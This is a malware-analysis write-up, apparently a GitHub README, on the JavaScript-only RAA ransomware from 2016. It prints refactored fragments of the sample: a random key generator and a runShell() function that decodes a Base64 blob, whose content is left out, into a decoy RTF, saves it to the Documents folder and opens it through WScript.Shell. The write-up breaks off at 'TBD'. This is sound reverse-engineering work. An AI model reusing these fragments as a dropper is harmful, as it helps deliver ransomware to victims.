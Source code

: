 # RAA Ransomware JavaScript code analysis

On 14th of June 2016 I found an information about new ransomware called RAA Ransomware. Couple of websites mentioned about it as first ransomware created only by using JavaScript.

Following some links provided by Polish malware analyst **@hasherezade** (https://github.com/hasherezade, https://twitter.com/hasherezade) I've downloaded RAA JavaScript source code from malwr.com (https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/) to take a look its internals.

File **raa.js** contains original content of RAA downloaded from malwr.com, and other files contains source code with some refactoring which I've done during RAA analysis and test runs.


# Analysis

## Extracting parts of code into separate files

**raa.js** file contains 3rd party library, used for some encoding purposes. It's **CryptoJS** library (source code available here https://code.google.com/archive/p/crypto-js/ or GitHub fork here https://github.com/sytelus/CryptoJS).

To keep source code easier to analysis, I've decided to divide **raa.js** into couple of smaller parts. After quick investigation I was able to spot three main parts.

Folder **partials/** contains those parts of code (I keep order of how those fragments exists in original file). Please be aware that I've done a lot of renaming, mostly in **raa_other.js**. Original, obfuscated names you can find in **raa.js**.

- **Crypto.js** contains CryptoJS library
- **raa_other.js** contains other functions, including **zQqUzoSxLQ()**, which seems to be an entry point for the program
- **NWvQtGjjfQX.js** contains only body of function _NWvQtGjjfQX()_, which is quite huge :)


## How RAA JavaScript works

First executable line of script is this assingment:

```javascript
var TBucypWw = YUIMqkFkI();
```

I renamed all found variables and function into something what makes sense and allows to follow them in code in some easy way. This is how previous line and a function just before it looks like after renaming (I just guessed the role of each variable and function to choose particular name):

```javascript
function generateKey() {
    var returnedKey = "";
    var allowedChars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
    for (var i = 0; i < 5; i++)
        returnedKey += allowedChars.charAt(Math.floor(Math.random() * allowedChars.length));
    return returnedKey;
}

// var TBucypWw = YUIMqkFkI();
var __key = generateKey();  // <-- returns xW5Gf
```

This fragment just generates a string which contains five characters. In this writeup, to understand its meaning, how and where it's used, I assigned *xW5Gf* from example above as generated value of **__key** variable.

Next executable fragment is:

```javascript
// starts from:
//
// var Yvwtdbvd = WScript.Arguments;
// (...)


var __arguments = WScript.Arguments;


if (__arguments.length == 0) {
    runShell();
    runRansomware();
} else {
    null;
}

```
And here's RAA starts its work. After script checks if there are any arguments passed (now let's assume that there aren't) **runShell()** is executed. Original name of this function is **nYuMHHRx()**, below is my refactored version.

```javascript

function runShell() {
    var b64EncodedString = "e1xydGYxXG..( very long Base64 encoded string )..zIwXHBhcg0KfQ0KBBSDIOBBSDIO==";
    b64EncodedString = b64EncodedString.replace(/BBSDIO/g, "A");
    var clear_b64EncodedString = CryptoJS.enc.Base64.parse(b64EncodedString);
    var clearedString = clear_b64EncodedString.toString(CryptoJS.enc.Utf8);
    clearedString = clearedString.replace(/BBSDIO/g, "A");
    var AdodbStreamObj = new ActiveXObject('ADODB.Stream');
    var WScriptShellObj = WScript.CreateObject("WScript.shell");
    var _saveFolder = WScriptShellObj.SpecialFolders("MyDocuments");
    _saveFolder = _saveFolder + "\\" + "doc_attached_" + __key;
    AdodbStreamObj.Type = 2;
    AdodbStreamObj.Charset = "437";
    AdodbStreamObj.Open();
    AdodbStreamObj.WriteText(clearedString);
    AdodbStreamObj.SaveToFile(_saveFolder);
    AdodbStreamObj.Close();
    var run = "wordpad.exe " + "\"" + _saveFolder + "\"";
    WScriptShellObj.Run(run);
    return 0;
}

```

Let's go through it step by step.

_b64EncodedString_ variable contains very long Base64 encoded string. After a couple of operations with Regular Expressions and CryptoJS methods calls - finally we get RTF document (see **extracted/extracted_rtf.rtf** file)

Next, a file is created with following path:

```
\MyDocuments\doc_atatched_xW5Gf
```

Content of previously generated RTF file is then saved at this path.

Finally, following command is prepared:

```
var run = wordpad.exe "\MyDocuments\doc_atatched_xW5Gf"
```

and executed by Windows Script Host using method Run():

```
WScriptShellObj.Run(run);
```
( reference: https://msdn.microsoft.com/en-us/library/d5fk67ky(v=vs.84).aspx )


-- TBD --



## Links, references

**News about RAA from BleepingComputer website**

http://www.bleepingcomputer.com/news/security/the-new-raa-ransomware-is-created-entirely-using-javascript/

**malwr.com**

https://malwr.com/analysis/YmE4MDNlMzk2MjY3NDdlYWE1NzFiOTNlYzVhZTlkM2Y/


**SophosLabs blog**			
https://nakedsecurity.sophos.com/2016/06/20/ransomware-thats-100-pure-javascript-no-download-required/